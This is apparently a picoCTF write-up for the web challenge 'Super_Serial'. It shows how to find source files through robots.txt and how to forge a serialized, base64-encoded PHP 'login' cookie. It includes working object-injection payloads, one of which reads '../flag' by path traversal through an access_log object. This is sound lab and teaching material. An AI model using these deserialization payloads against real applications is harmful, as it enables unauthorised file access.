


# Platform: PicoCTF
# Name: Super_Serial
## Type : Web
Following the link we get to a login page.


In "robots.txt" we find this:


The disallowed page can not be found.


The extention on the dissalowed page seems weird so I'll try accesing the index with the same extention.


This means the "s" in the extention comes from "source". This becames a White Box type challenge if got to "cookie.phps".



I'll add a cookie named "login" with a test value "a".


This results in this:


Analyzing the "cookie.phps" page we cand find out how the "login" cookie should look like.

```php
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

We now that the value should be serialized, base64 encoded and url encoded.
For the serialization part I'll use : https://onecompiler.com/php/42f4u2gh2
And for the base64 encoding and url encoding I'll use CyberChef.

Payload before encoding:
```markdown
O:11:"permissions":2:{s:8:"username";s:4:"test";s:8:"password";s:4:"test";}
```

Payload after encoding:
```markdwon
TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NDoidGVzdCI7czo4OiJwYXNzd29yZCI7czo0OiJ0ZXN0Ijt9
```

Result:



So it works. I fodun something interesting in "authentication.phps".


We can serialize an object of type "access_log" that reads the flag.

```markdown
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

```makrdown
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

## We got the flag!

